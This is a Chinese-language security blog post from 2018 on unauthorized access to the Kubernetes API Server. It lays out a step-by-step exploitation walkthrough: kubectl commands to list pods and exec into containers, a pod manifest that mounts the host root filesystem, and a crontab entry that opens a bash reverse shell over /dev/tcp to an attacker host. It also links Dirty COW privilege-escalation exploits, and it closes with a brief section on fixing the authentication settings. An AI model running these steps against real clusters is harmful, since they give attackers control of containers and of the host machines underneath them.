 title: Kubernetes Api Server 未授权访问漏洞
top_img: https://i.loli.net/2018/12/07/5c0a082f37145.png
tags: [漏洞]
date: 2018-12-05
----

# 0x00 漏洞原因

Kubernetes 的服务在正常启动后会开启两个端口：

1. Localhost Port （默认8080）
2. Secure Port （默认6443）

这两个端口都是提供 Api Server 服务的，一个可以直接通过 Web 访问，另一个可以通过 kubectl 客户端进行调用。

![Web 页面](https://i.loli.net/2018/12/05/5c07dec609ff5.png)

正常情况下 Api Server 是有权限控制的，分三种：

1. Authentication
2. Authorization
3. AdmissionControl

如果运维人员没有合理的配置验证和权限，那么攻击者就可以通过这两个接口去获取容器的权限，甚至通过创建自定义的容器去获取宿主机的权限。

# 0x01 漏洞利用

利用方式按严重程度来说分两种，一种是直接通过利用 kubectl 客户端调用 Secure Port 接口去控制已经创建好的容器。另外一种利用方法就是通过创建一个自定义的容器将系统根目录的文件挂在到/mnt目录，通过修改/mnt/etc/crontab 来影响宿主机的 crontab，获取一个反弹 Shell 拿到宿主机的权限。先说第一种方式。


首先，通过下面命令，去发现已经存在的容器

```
kubectl -s ip:port  get pods
```

![发现的容器](https://i.loli.net/2018/12/05/5c07e27b68f05.png)

然后直接连接这个容器获取 Shell。


```
kubectl -s ip:port  --namespace=default exec -it dockername bash
```
![获取容器权限](https://i.loli.net/2018/12/06/5c07f8c667de8.png)

这样就达到了控制容器的目的，但是容器的权限本身是不稳定的，如果宿主机本身的内核有问题的话，可以利用脏牛漏洞进行提权，获取宿主机的权限。具体可以参考：

[PoC for Dirty COW (CVE-2016-5195)](https://github.com/scumjr/dirtycow-vdso)
[DDirtycow-docker-vdso](https://github.com/gebl/dirtycow-docker-vdso)

第二种方式就比较厉害了，利用成功后造成的危害也最大。

首先我们根据官方的规范新建一个标准文件 `myapp.yaml` ,当然也可以使用 json 格式的。


```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
其中的 image 可以更换，最好使用基础镜像。

然后我们可以通过两种方式提交我们创建容器的请求，一种是通过他的 Web 页面（也就是默认的8080端口）

![Web 端方式提交](https://i.loli.net/2018/12/05/5c07e697f2044.png)

另外我们也可以通过他的另外的接口，通过 kubectl 客户端进行任务的提交。


```
kubectl -s  ip:port create -f yourfile
```

这里如果出现`Error from server (NotFound): the server could not find the requested resource`报错，可能是因为你的 kubectl 客户端和 kubernetes 的 server 端版本不相同导致的，一定要确保版本相同。

![版本确认](https://i.loli.net/2018/12/05/5c07edbf2b85e.png)

提交成功后，我们用之前命令获取容器的 bash，然后向容器的 `/mnt/etc/crontab` 写入反弹 shell 的定时任务，因为创建容器时把宿主机的根目录挂载到了容器的/mnt 目录下，所以可以直接影响到宿主机的 crontab。


```
echo -e "* * * * * root bash -i >& /dev/tcp/ip/port 0>&1\n" >> /mnt/etc/crontab
```

接下来就是见证奇迹的时刻，耐心的等待你就能拿到 Shell 了，验证之后可以确认是宿主机的权限，而不是容器的权限

![获取宿主机权限](https://i.loli.net/2018/12/05/5c07e92f66a77.png)

# 0x01 漏洞修复

在使用 kubernetes 的时候我们一定要进行身份的校验，K8S 的 APi 其实有非常严格的认证和授权

![校验认证流程](https://i.loli.net/2018/12/05/5c07ea3d72caa.png)

最简单的是在 Authentication 增加静态的 password，或者 token，可以的话关闭 Web 端口的服务，保持最小化原则，避免安全风险的产生，可以参考 [官方文档](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#static-password-file)


